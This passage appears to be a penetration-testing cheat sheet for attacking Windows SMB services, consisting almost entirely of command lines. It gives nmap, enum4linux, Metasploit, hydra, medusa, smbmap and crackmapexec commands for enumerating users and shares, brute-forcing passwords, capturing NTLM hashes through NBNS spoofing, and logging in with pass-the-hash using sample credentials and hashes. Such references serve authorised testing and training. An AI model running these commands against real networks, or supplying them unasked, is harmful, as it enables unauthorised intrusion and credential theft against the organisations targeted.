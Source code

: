 Backdoors left on the computer can be listed.

| 1 2  | nmap -sV -p445 --script=stuxnet-detect nmap -sV -p445 --script=smb-double-pulsar-backdoor  |
|------|--------------------------------------------------------------------------------------------|

Usernames can be detected with the RID technique.

| 1 2 3  | crackmapexec smb 10.10.x.0/24 -d Domain -u Usernames.list -p Password.list –rid-brute nmap -sV -p445 --script=smb-enum-users msf \> use auxiliary/scanner/smb/smb_lookupsid  |
|--------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

A general information gathering can be carried out. Obtain SMB server version, domain name, Nbtstat info, MAC address, operating system, users (querydispinfo and enumdomusers), shared directories, anonymous sharing control, password policy (via rpcclient), groups, members of groups, RID and SID info,… can be done.

| 1  | enum4linux -a 10.10.x.x  |
|----|--------------------------|

The SMB service can be started. Thus, by listening to the network, the NTLM/LM password hashes of the users on the network and the encrypted Challenge values can be collected.

| 1 2  | msf \> use auxiliary/server/capture/smb msf \> use auxiliary/spoof/nbns/nbns_response  |
|------|----------------------------------------------------------------------------------------|

Valid users or passwords that can be logged in can be detected.

| 1 2 3 4 5  | nmap -sV -p445 --script=smb-brute --script-args userdb=Usernames.list,passdb=Passwords.list,smblockout=1 msf \> use auxiliary/scanner/smb/smb_login hydra -t 2 -L Usernames.list -P Passwords.list -M IPAdresses.list -s TargetPort smb medusa -t 2 -T 2 -U Usernames.list -P Passwords.list -H IPAdresses.list -n TargetPort -M smbnt crackmapexec smb 10.10.x.x/24 -d secybr.local -u Usernames.list -p Passwords.list  |
|------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Valid login users or password hashes can be identified.

| 1 2 3 4  | msf \> use auxiliary/scanner/smb/smb_login hydra -t 2 -L Usernames.list -P Hashes.list -M TargetIPAdresses.list -s TargetPort -m "LocalHash" smb medusa -t 2 -T 2 -U Usernames.list -P Hashes.list -H TargetIPAdresses.list -n TargetPort -m PASS:HASH -M smbnt crackmapexec smb 10.10.x.x/24 -d secybr.local -u Usernames.list -H Hashes.list  |
|----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Detailed information collection can be performed using identity information.

| 1  | enum4linux -u secybr.local\\\\0xhav0c -p 'Password123!' -a 10.10.x.x  |
|----|-----------------------------------------------------------------------|

Shares can be listed using credentials.

| 1 2 3 4 5 6 7 8 9 10  | nmap -sV -p445 --script=smb-enum-shares --script-args smbdomain=secybr.local,smbuser=0xhav0c,smbpass='Password123!' 10.10.x.x nmap -sV -p445 --script=smb-ls --script-args smbdomain=secybr.local,smbuser=0xhav0c,smbpass='Password123!',share=’SharedFolder’ 10.10.x.x nmap -sV -p445 --script=smb-enum-shares,smb-ls --script-args smbdomain=secybr.local,smbuser=0xhav0c,smbpass='Password123!' 10.10.x.x msf\> use auxiliary/scanner/smb/smb_enumshares smbclient //10.10.x.x/SharedFolder -U secybr.local\\\\0xhav0c smbmap –host-file /path/to/TargetIPAddresses.list -d secybr.local -u 0xhav0c -p 'Password123!' -R smbmap -H 10.10.x.x -R SharedFolder -A SearchingFileName pth-smbclient -U secybr.local/0xhav0c%aad3b435b51404eeaad3b435b51404ee //10.10.x.x/SharedFolder crackmapexec smb 10.10.x.x/24 -d secybr.local -u 0xhav0c -p 'Password123!' --shares crackmapexec smb 10.10.x.x/24 -d secybr.local -u 0xhav0c -H '53f587baed383d5e8969457609f80a33333331a22a7e651:1b7951d1ee9e3363' --shares  |
|-----------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![accessing and downloading the known shared file with smbclient](media/8f5e8d05baf796585b94766612909ca5.png)accessing and downloading the known shared file with smbclient

